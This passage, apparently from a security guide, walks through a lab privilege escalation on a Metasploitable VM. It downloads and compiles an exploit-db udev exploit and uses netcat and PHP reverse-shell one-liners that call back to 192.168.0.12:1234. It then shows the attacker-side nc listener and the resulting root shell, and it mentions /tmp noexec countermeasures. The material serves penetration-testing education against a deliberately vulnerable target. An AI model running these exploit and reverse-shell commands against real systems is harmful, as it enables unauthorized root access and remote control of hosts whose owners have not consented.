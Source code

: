 G> You can also see within the exploit that it adds executable permissions to our reverse shell payload. Now if we had `/tmp` mounted as we do in the `/etc/fstab` in the Countermeasures section, neither `/tmp/run` or `/tmp/privesc` would be able to execute.  
G>
G> Through our daemon shell that `distcc_exec` provided, let us fetch the exploit:  
G> `wget --no-check-certificate https://www.exploit-db.com/download/8572 -O privesc.c`  
G> The `no-check` is required because metasploitable does not have the relevant CA cert installed.  
G> Now check that the file has the contents that you expect.  
G> `cat privesc.c`
G>
G> Let us compile it:  
G> `gcc privesc.c -o privesc`  
G> `ls -liah`  
G> `privesc`
G>
G> Now we need the PID of the udevd netlink socket  
G> `cat /proc/net/netlink`  
G> Gives us `2299`  
G> And to check:  
G> `ps -aux | grep udev`  
G> Gives us `2300` which should be one more than netlink.
G>
G> Now we need something on the target to use to open a reverse shell. Netcat may not be available on a production web server, but if it is:  
G> Open a connection to 192.168.0.12:1234, then run `/bin/bash`  
G> `echo '#!/bin/bash' > run`  
G> `echo '/bin/netcat -e /bin/bash 192.168.0.12 1234' >> run`  
G> Another alternative is using php  
G> `echo '#!/bin/bash' > run`  
G> `echo "php -r '\$sock=fsockopen(\"192.168.0.12\",1234);exec(\"/bin/bash <&3 >&3 2>&3\");'" >> run`  
G> There are also many other options [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to use for providing a reverse shell.

{icon=bomb}
G>
G> On the attacking side:  
G> `nc -lvp 1234`  
G> `Listening on [any] 1234 ...`
G>
G> Now from our low privilege shell, user supplies message from user space (seen within the exploit) along with the PID of netlink:  
G> `./privesc 2299`
G>
G> You should see movement on the listening netcat now.  
G> `connect to [192.168.0.12] from metasploitable [192.168.0.232] 43542`  
G> `whoami`  
G> `root`
G>
G> and that is our privilege escalation, we now have root.

The Countermeasures sections that address are:
